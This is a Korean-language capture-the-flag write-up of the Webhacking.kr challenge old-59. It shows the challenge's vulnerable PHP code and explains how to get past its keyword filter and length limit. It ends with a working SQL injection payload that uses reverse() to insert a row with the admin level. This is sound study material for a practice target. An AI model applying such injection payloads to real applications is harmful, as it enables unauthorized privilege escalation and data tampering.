 ```yaml
---
title: ["[Webhacking.kr] old-59 (sqli - 20)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if($_POST['lid'] && isset($_POST['lphone'])){
    $_POST['lid'] = addslashes($_POST['lid']);
    $_POST['lphone'] = addslashes($_POST['lphone']);
    $result = mysqli_fetch_array(mysqli_query($db,"select id,lv from chall59 where id='{$_POST['lid']}' and phone='{$_POST['lphone']}'"));
    if($result['id']){
      echo "id : {$result['id']}<br>lv : {$result['lv']}<br><br>";
      if($result['lv'] == "admin"){
      mysqli_query($db,"delete from chall59");
      solve(59);
    }
    echo "<br><a href=./?view_source=1>view-source</a>";
    exit();
    }
  }
  if($_POST['id'] && isset($_POST['phone'])){
    $_POST['id'] = addslashes($_POST['id']);
    $_POST['phone'] = addslashes($_POST['phone']);
    if(strlen($_POST['phone'])>=20) exit("Access Denied");
    if(preg_match("/admin/i",$_POST['id'])) exit("Access Denied");
    if(preg_match("/admin|0x|#|hex|char|ascii|ord|select/i",$_POST['phone'])) exit("Access Denied");
    mysqli_query($db,"insert into chall59 values('{$_POST['id']}',{$_POST['phone']},'guest')");
  }
?>
```

`id`와 `phone`을 입력해서 join을 할 수 있고, 마찬가지로 login도 할 수 있다.  
테이블에는 `id`, `phone`, `lv` 세 개의 데이터가 들어가고, `lv`은 `guest`로 설정된다.  
`lv`이 `admin`이 되도록 `phone`에 insert하고, 해당 정보로 login을 하면 될 것 같다.  

`phone`의 길이 제한이 20이 아니라면, `admin`의 바이너리 값으로 간단히 풀었을 문제였는데,  
필터링을 우회해서 `admin`을 표현할 적절한 방법을 찾는게 관건인 것 같다.  

[String Functions and Operators](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html) 공식 매뉴얼은 언제나 큰 도움을 준다.  
대부분의 함수들이 길이 제한 때문에 사용이 불가하다.  
`reverse()`가 유일한 해답인듯 하다.  

```
id=nimda&phone=1,reverse(id))-- &lid=&lphone=
```